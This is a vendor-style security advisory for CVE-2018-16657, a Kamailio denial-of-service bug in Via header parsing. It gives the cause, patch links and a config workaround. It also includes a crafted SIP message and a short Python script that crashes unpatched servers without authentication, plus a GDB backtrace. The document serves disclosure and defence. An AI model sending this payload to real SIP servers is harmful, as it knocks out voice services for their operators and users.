## Security vulnerability in Kamailio core related to Via header processing, denial of service possible.

- Author: Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-16657
<!-- - Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/TODO/ -->
- Tested vulnerable versions: 5.1.3, 5.0.6, 4.0, git master
- Timeline:
    - Report date: 2018-06-03
    - Kamailio patch: 2018-06-03
    - Kamailio release with patch: 2018-06-05
    - Security advisory: 2018-09-04

### Description

There exists a security vulnerability in the Kamailio core related to Via header processing. A specially crafted SIP message with an invalid `Via` header causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `crcitt_string_array` core function for calculating a CRC hash for To tags.  An additional error is present in the `check_via_address` core function, this function also misses input validation.

### Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

### How to reproduce the issue

The following SIP message with several invalid `Via` header can be used to reproduce the vulnerability:


```
INVITE sip:0 SIP/2.0
To: 0
Via: SIP/2.0/UDP :]
```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "INVITE sip:0 SIP/2.0\n" \
        "To: 0\n" \
        "Via: SIP/2.0/UDP :]\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program received signal SIGSEGV, Segmentation fault.
0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
239                             ccitt = UPDCIT( *c, ccitt );
(gdb) bt
#0  0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
#1  0x00007ffff6162309 in calc_crc_suffix (msg=0x7ffff72c37c8, tag_suffix=0x7ffff6373961 <sl_tag_buf+33> "") at ../../core/tags.h:55
#2  0x00007ffff6162f5c in sl_reply_helper (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)", tag=0x0) at sl_funcs.c:166
#3  0x00007ffff61644c3 in sl_send_reply (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)") at sl_funcs.c:304
#4  0x00007ffff6164ca7 in sl_reply_error (msg=0x7ffff72c37c8) at sl_funcs.c:362
#5  0x00007ffff6168245 in w_sl_reply_error (msg=0x7ffff72c37c8, str=0x0, str2=0x0) at sl.c:233
#6  0x000000000043966a in do_action (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1067
#7  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1565
#8  0x00000000004395d9 in do_action (h=0x7fffffffd120, a=0x7ffff72919b8, msg=0x7ffff72c37c8) at core/action.c:1058
#9  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff728bef0, msg=0x7ffff72c37c8) at core/action.c:1565
#10 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff72ac508, msg=0x7ffff72c37c8) at core/action.c:691
#11 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff72ac098, msg=0x7ffff72c37c8) at core/action.c:1565
#12 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff7287ba8, msg=0x7ffff72c37c8) at core/action.c:691
#13 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7282420, msg=0x7ffff72c37c8) at core/action.c:1565
#14 0x00000000004465c2 in run_top_route (a=0x7ffff7282420, msg=0x7ffff72c37c8, c=0x0) at core/action.c:1654
#15 0x000000000058908d in receive_msg (buf=0xa56a60 <buf> "INVITE sip:0 SIP/2.0\nTo: 0\nViaa: SIP/2.0/UDP\nV\nVia:\nVia: SIP/2.0/UDP :]", len=71, rcv_info=0x7fffffffd740) at core/receive.c:331
#16 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#17 0x00000000004253d1 in main_loop () at main.c:1432
#18 0x000000000042d631 in main (argc=17, argv=0x7fffffffdc68) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/?target=_blank) and an internal toolset.

### Solutions and recommendations

Apply the correct patch [git master](https://github.com/kamailio/kamailio/commit/ad68e402ece8089f133c10de6ce319f9e28c0692?target=_blank), [version 5.1](https://github.com/kamailio/kamailio/commit/d67b2f9874ca23bd69f18df71b8f53b1b6151f6d?target=_blank), or [version 5.0](https://github.com/kamailio/kamailio/commit/f07dabffef98c7088cdbc2bd695a4ae7a241b159?target=_blank) from github or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7). For older Kamailio version and in case you need more time for an update you can add the following logic on top of to your `request_route` block in your kamailio configuration file. This will drop this malicious  message and prevent its processing.

```
if($sel(Via.host) == $null) {
    xlog("invalid Via header found - dropping message\n");
    drop;
}
```

### About Henning Westerholt

[Henning Westerholt](https://skalatan.de/about) is a core developer of Kamailio since 2007. He provides for Kamailio and VoIP services in the performance, reliability and security areas.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
